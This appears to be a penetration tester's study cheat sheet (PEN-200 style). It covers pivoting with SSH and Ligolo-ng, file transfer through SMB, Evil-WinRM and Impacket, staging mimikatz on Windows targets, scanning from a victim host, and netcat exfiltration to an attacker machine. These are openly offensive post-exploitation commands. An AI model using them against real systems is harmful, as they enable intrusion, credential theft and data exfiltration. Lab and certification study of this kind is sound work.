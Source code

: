 # SSH

Start:
```bash
sudo systemctl start ssh
```

Remote Port Forwarding (not dynamic)
```
ssh -N -R 2345:<target-ip>:<port> kali@192.168.45.212
```
*Note: `2345` is the port that will open on Kali*
*Note: target IP could be localhost*

# Ligolo-ng

## Quickstart
### Automatic
```bash
# Kali Proxy
sudo ./proxy -laddr 0.0.0.0:9001 -selfcert

# Creating interface and starting it
interface_create --name "ligolo"

sudo ifconfig ligolo mtu 1250 # Mitigate infra issues

# Agent
agent.exe -connect <LHOST>:9001 -ignore-cert

# In Ligolo-ng console
session # Select agent
ifconfig # Notedown the internal network's subnet
interface_add_route --name "ligolo" --route 192.168.2.0/24
start # AFTER adding relevent subnet to ligolo interface
```
### Manual
```bash
# Creating interface and starting it
sudo ip tuntap add user $(whoami) mode tun ligolo
sudo ip link set ligolo up
sudo ifconfig ligolo mtu 1250 # Mitigate infra issues

# Kali Proxy
sudo ./proxy -laddr 0.0.0.0:9001 -selfcert

# Agent
agent.exe -connect <LHOST>:9001 -ignore-cert

# In Ligolo-ng console
session # Select agent
ifconfig # Notedown the internal network's subnet

# Adding subnet to ligolo interface - Kali linux
sudo ip r add <subnet> dev ligolo

# In Ligolo-ng console
start # AFTER adding relevent subnet to ligolo interface
```

## Local Port Redirect
1) Add special `240.0.0.1/32` which routes traffic to loopback address on the agent side of the tunnel:
```bash
sudo ip route add 240.0.0.1/32 dev ligolo
```
2) ***ALTERNATIVELY***, use the `interface_add_route` built-in command:
```ligolo-ng
interface_add_route --name ligolo --route 240.0.0.1/32
```
3) Scans 3000/TCP on 127.0.0.1 on the agent-side of the tunnel.
```bash
sudo nmap -Pn -sT -p3000 240.0.0.1
```

## Local Port Redirect (Multiple Agents)
https://github.com/nicocha30/ligolo-ng/issues/15

> Switching to another session will not change the current "routing".
You need to start a relay on the other agent (and specify another interface using `start --tun ligolo2`), then change your system routing table to forward packets to 240.0.0.1 via ligolo2.

## Ligolo-ng Debugging / Cleanup

```bash
sudo ip link set ligolo down
sudo ip link delete ligolo
# Flush routes
sudo ip route del <internal-network> via 240.0.0.1
# Alternatively, flush all added routes:
sudo ip route flush table main
```

# Windows Exfil Back to Kali
### SMB
On Kali:
```bash
impacket-smbserver share . -smb2support -user kali -password kali
```
On Windows:
```PowerShell
net use \\<kali_ip>\share /user:kali kali
cp loot \\<kali_ip>\share\
net use \\<kali_ip>\share /delete # Optional: Delete share use
```
### Evil-WinRM
#### Downloading
```PowerShell
download mimikatz.log /home/kali/Documents/pen-200
```
#### Uploading
```PowerShell
upload mimikatz.exe  C:\Users\Public\mimikatz.exe
```

### Impacket
`psexec` and `wmiexec` are shipped with built in feature for file transfer.
*Note*: By default whether you upload (`lput`) or download (`lget`) a file, it'll be written in `C:\Windows` path.
#### Downloading
```PowerShell
C:\Windows> lget mimikatz.log
[*] Downloading ADMIN$\mimikatz.log
```
#### Uploading
Uploading `mimikatz.exe` to the target machine:
```PowerShell
C:\Windows\system32> lput mimikatz.exe
[*] Uploading mimikatz.exe to ADMIN$\/
C:\Windows\system32> cd C:\windows
C:\Windows> dir /b mimikatz.exe
mimikatz.exe
```
# Nmap via Ligolo-ng
```bash
sudo nmap 10.10.81.152 10.10.81.153 10.10.81.154 -Pn --unprivileged -sC -sV -p- -vv -oA nmap/tcp
```

# Nmap from Windows Victim

Download Nmap windows ZIP from tools
Unzip on target:
```
Expand-Archive -Path nmap.zip
```

```PowerShell
.\nmap.exe 192.168.207.141 192.168.207.142 -sC -sV -sS -p- -vv -oA initial
```

# Linux Exfiltration
On your receiver:
```bash
nc -l -p 1234 -q 1 > something.txt < /dev/null
```
On your sender:
```bash
cat something.txt | nc server.ip.here 1234
```
